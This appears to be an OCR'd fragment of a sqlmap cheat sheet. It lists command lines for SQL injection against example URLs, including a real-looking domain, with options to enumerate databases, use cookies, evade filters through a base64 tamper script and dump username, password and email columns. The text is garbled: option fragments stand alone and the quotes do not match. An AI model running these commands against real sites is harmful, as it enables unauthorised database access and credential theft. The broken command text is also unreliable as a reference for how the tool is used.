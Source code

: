 sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "Mysql" --dbs -o "sqlmap.log" --resume #恢复已保存进度

./sqlmap.py -u “http://www.91ri.org/ id1/1*/id2/2″

"Show.asp" --cookie "id=9" --table --level 2

--forms

--data "data"

--delay 0.5

--safe-freq 25

-v 3 --dbs --batch --tamper "base64encode.py"

sqlmap.py -u url -D "data" -T "tables" -C "username,password,email" --dump-all -v 0